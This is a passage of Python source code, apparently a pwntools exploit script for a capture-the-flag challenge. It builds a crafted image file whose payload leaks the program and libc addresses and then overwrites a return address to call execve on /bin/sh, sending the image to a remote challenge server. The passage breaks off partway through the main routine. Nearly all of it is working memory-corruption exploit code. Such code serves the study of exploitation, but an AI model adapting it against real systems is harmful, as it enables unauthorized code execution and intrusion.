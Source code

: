 ```Python
    for _ in range(third_lowest_word_diff):
        data += bytes([SHOW_STATISTICS_RET_ADDR_OFFSET + 2])

    return data


def get_image(leak_libc=False, final_exploit=False, show_statistics_ret_addr=None, execve_bin_sh_addr=None):
    width = 0
    height = 0
    title_len = 0

    data = get_data_to_leak_pcg_bin_address()
    if leak_libc:
        data = get_data_to_leak_libc()

    if final_exploit:
        data = get_data_to_change_ret_addr_to_execve(show_statistics_ret_addr, execve_bin_sh_addr)

    data_len = len(data)
    header = get_header(0, width, height, title_len, data_len)  # Checksum will be modified later.
    checksum = calc_checksum(header + data)

    header = get_header(checksum, width, height, title_len, data_len)
    return header + data


def check_total_diff(base_bin_addr, libc_addr):
    total_diff = 0
    total_diff += (((libc_addr & 0xffff) - (base_bin_addr & 0xffff))) & 0xffff
    total_diff += (((libc_addr & 0xffff0000) >> (8 * 2)) - ((base_bin_addr & 0xffff0000) >> (8 * 2))) & 0xffff
    total_diff += (((libc_addr & 0xffff00000000) >> (8 * 4)) - ((base_bin_addr & 0xffff00000000) >> (8 * 4))) & 0xffff
    return total_diff <= 0xffff


def main():
    context.log_level = "debug"
    io_gdb = pwn.remote("pcg.ctf.knping.pl", 30001)

    io_gdb.recvuntil(">>".encode("ASCII"))
    io_gdb.sendline("3".encode("ASCII"))
    io_gdb.recvuntil(">>".encode("ASCII"))

    # Leak libc puts addr.
    image = get_image(leak_libc=True)

    for idx in range(len(image) // pwntools_send_size + 1):
        io_gdb.send(image[pwntools_send_size * idx:(idx + 1) * pwntools_send_size])

    io_gdb.sendline()
    io_gdb.recvuntil(">>".encode("ASCII"))

    io_gdb.sendline("2")
    io_gdb.recvuntil("HEADER END".encode("ASCII"))
    io_gdb.recvuntil("magic: ".encode("ASCII"))

    four_bytes_LSB = io_gdb.recvn(8)

    io_gdb.recvuntil("checksum: ".encode("ASCII"))
    two_bytes_MSB = io_gdb.recvn(4)

```